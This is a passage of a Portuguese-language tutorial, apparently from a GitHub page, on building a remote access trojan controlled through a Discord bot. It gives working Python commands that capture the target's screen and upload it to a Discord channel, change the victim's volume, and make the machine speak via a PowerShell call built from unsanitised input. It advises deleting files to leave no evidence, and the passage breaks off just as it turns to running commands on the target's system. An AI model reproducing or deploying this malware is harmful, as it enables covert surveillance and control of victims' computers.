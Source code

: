 Como exemplo, vamos adicionar um comando que captura a tela do computador alvo e envia a imagem diretamente para um canal no Discord. Isso ajudará a ilustrar como configurar e expandir as funcionalidades do RAT.
#
```py

@bot.command(name='screenshot', help=f'Tira um screenshot da tela e envia para o canal atual. Uso: {prefix}screenshot')
async def screenshot(ctx):
    with mss() as sct:
        sct.shot(output='screenshot.png')
    await ctx.send(file=discord.File('screenshot.png'))
    os.remove('screenshot.png')

```
#
Este comando utiliza a biblioteca mss para capturar a tela do computador alvo e enviar a imagem para o Discord. Ele cria um arquivo chamado screenshot.png, que é enviado diretamente ao canal especificado, e em seguida, o arquivo é excluído para evitar rastros no sistema.
#
> Importante: Sempre remova os arquivos temporários que você cria, evitando deixar evidências.
#
Além disso, vamos adicionar comandos para ajustar o volume do sistema ao máximo e ao mínimo. As funções `volumeup` e `volumedown` já foram implementadas para você, então basta integrá-las aos comandos do bot.
#
```py

@bot.command(name='volumeup', help='Aumenta o volume do computador. Uso: !volumeup')
async def volume_up(ctx):
    volumeup()
    await ctx.send("[*] Volume up to 100%")

@bot.command(name='volumedown', help=f'Diminui o volume do computador. Uso: {prefix}volumedown')
async def volume_down(ctx):
    volumedown()
    await ctx.send("[*] Volume down to 0%")

```
#
Vamos adicionar um comando para "falar" com o alvo, ou seja, o bot irá reproduzir uma mensagem de áudio no computador da pessoa. Imagine o impacto quando o dispositivo começar a falar sozinho!
#
```py

@bot.command(name='voice', help=f'Fala a mensagem especificada. Uso: {prefix}voice <mensagem>')
async def voice(ctx, *, message: str):
    subprocess.run(f"PowerShell -Command Add-Type -AssemblyName System.Speech; (New-Object System.Speech.Synthesis.SpeechSynthesizer).Speak('{message}')", shell=True)
    await ctx.send(f"[*] Voice message: {message}")

```
#
Agora vamos para o comando mais crucial: a execução de comandos no sistema do alvo.
